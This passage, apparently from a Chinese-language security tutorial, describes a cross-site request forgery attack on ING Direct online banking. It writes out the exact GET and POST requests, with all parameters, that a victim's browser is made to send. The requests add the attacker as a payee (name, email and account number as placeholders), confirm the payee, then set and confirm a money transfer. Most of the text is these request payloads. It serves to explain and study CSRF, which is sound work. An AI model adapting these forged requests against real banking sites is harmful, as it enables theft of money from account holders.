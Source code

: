     (a)攻击者控制用户浏览器浏览“添加收款人”页面：
    * 发起对   https://secure.ingdirect.com/myaccount/INGDirect.html?command=goToModifyPersonalPayee&Mode=Add&from=displayEmailMoney 的GET请求。

    (b)攻击者控制用户浏览器浏览填写攻击者信息的页面：
    * 发起对 https://secure.ingdirect.com/myaccount/INGDirect.html 的POST请求，其中包括这些属性：
        ```
        command=validateModifyPersonalPayee&
        from=displayEmailMoney&
        PayeeName =[PAYEE_NAME]&
        PayeeNickname=&chk Email=on&
        PayeeEmail=[PAYEE_EMAIL]&
        PayeeIsEmailToOrange=true&
        Payee OrangeAccount=[PAYEE_ACCOUNT_NUM]&
        YES, I WANT TO CONTINUE..x=44&
        YES, I WANT TO CONTINUE..y=25
        ```
        其中`[PAYEE_NAME]`是攻击者姓名，`[PAYEE_EMAIL]`是攻击者邮箱，`[PAYEE_ACCOUNT_NUM]`是攻击者的ING账户号码。

    (c)攻击者控制用户浏览器确认攻击者是有效的收款人：
    * 发起对 https://secure.ingdirect.com/myaccount/INGDirect.html 的POST请求，其中包括这些属性：
        ```
        command=modifyPersonalPayee&
        from= displayEmailMoney&
        YES, I WANT TO CONTINUE..x=44&
        YES, I WANT TO CONTINUE..y=25
        ```
3. 攻击者将资金从用户帐户转移到自己的帐户。

    (a)攻击者控制用户浏览器输入转账金额
    * 发起对 https://secure.ingdirect.com/myaccount/INGDirect.html 的POST请求，其中包括这些属性：
        ```
        command=validateEmailMoney&
        CNSPayID =5000&
        Amount=[TRANSFER_AMOUNT]&
        Comments=[TRANSFER_MESSAGE]&
        YES, I WANT TO CONTINUE..x=44&
        YES, I WANT TO CONTINUE..y=25&
        show=1&
        button=Send Money
        ```
        其中`[TRANSFER_AMOUNT]`是转账的资金金额，`[TRANSFER_MESSAGE]`是转账时的附加信息。

    (b)攻击者控制用户浏览器确认转账金额：
    * 发起对 https://secure.ingdirect.com/myaccount/INGDirect.html 的POST请求，其中包括这些属性：
        ```
        command=emailMoney&
        Amount= [TRANSFER_AMOUNT]
        Comments= [TRANSFER_MESSAGE]&
        YES, I WANT TO CONTINUE..x=44&
        YES, I WANT TO CONTINUE..y=25
        ```
        其中`[TRANSFER_AMOUNT]`和`[TRANSFER_MESSAGE]`含义同3(a)中对应字段。
